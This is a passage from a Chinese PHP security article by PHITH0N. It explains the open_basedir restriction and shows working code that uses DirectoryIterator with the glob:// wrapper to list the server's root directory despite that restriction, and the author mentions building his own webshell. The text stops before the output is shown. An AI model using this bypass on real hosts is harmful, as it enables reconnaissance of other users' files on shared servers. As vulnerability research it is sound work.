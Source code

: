 原文 by PHITH0N 

## 0x00 前言
近期由于在开发自己的webshell，所以对PHP一些已有的漏洞进行了一定的研究，并且也自己发现了部分PHP存在的安全隐患。这篇文章我来与大家分享一下自己对于PHP中open_basedir 绕过并列举目录的方法总结。  

## 0x01 open_basedir的简介
Open_basedir是PHP设置中为了防御PHP跨目录进行文件（目录）读写的方法，所有PHP中有关文件读、写的函数都会经过open_basedir的检查。Open_basedir实际上是一些目录的集合，在定义了open_basedir以后，php可以读写的文件、目录都将被限制在这些目录中。  
设置open_basedir的方法，在linux下，不同的目录由“:”分割，如“/var/www/:/tmp/”；  
在Windows下不同目录由“;”分割，如“c:/www;c:/windows/temp”。  
在现在这个各种云、虚拟主机横行的时期，人们希望open_basedir作为一个横亘在不同用户之间的屏障，有力地保障用户的主机能独立运行，但事实并非人们想象的那么简单。  

我们这篇文章着重讲的将是绕过open_basedir进行目录的列举与遍历，为何我们不说具体文件的读、写，因为文件读写的洞是危害比较大的漏洞了，在php5.3以后很少有能够绕过open_basedir 读写文件的方法。  

## 0x02 利用DirectoryIterator + Glob 直接列举目录

DirectoryIterator 是php5中增加的一个类，为用户提供一个简单的查看目录的接口（The DirectoryIterator class provides a simple interface for viewing the contents of filesystem directories）。  
glob: 数据流包装器是从 PHP 5.3.0 起开始有效的，用来查找匹配的文件路径。  
结合这两个方式，我们就可以在php5.3以后对目录进行列举。在实测中，我们得知，此方法在Linux下列举目录居然可以无视open_basedir。  
示例代码：  
``` php
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>
```
执行我们可以发现，open_basedir为/usr/share/nginx/www/:/tmp/，但我们成功列举了/根目录下的所有文件：  
